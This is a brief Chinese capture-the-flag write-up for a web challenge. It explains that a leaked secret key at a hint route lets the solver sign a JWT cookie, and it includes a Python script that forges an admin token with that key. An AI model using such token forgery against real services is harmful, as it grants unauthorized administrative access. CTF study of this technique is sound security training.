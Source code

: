 ![](./images/1698937382-image.png)

### 雨

**VanZY给白月光写了一张明信片，快去帮他把id签上吧**

在hint路由下给出了secret\_key的信息

![](./images/1698977700-image.png)

同时在http头里发现cookie

![](./images/1698977764-image.png)

不过这道题不是flask session，而是jwt token，两者的区别可以自行搜索

两者的加密方式不同，写的脚本也不同

```
import jwt

# 示例用法
payload = {'user': 'admin', 'iat': 1698977214}
secret_key = 'VanZY'

encoded_token = jwt.encode(payload, secret_key, algorithm='HS256')
print(encoded_token.encode())
#eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4iLCJpYXQiOjE2OTg5NzcyMTR9.QsHyTGY5GnM7WWzf69WbkVOj8UySuBpIsTQfR8Jr2q0
```
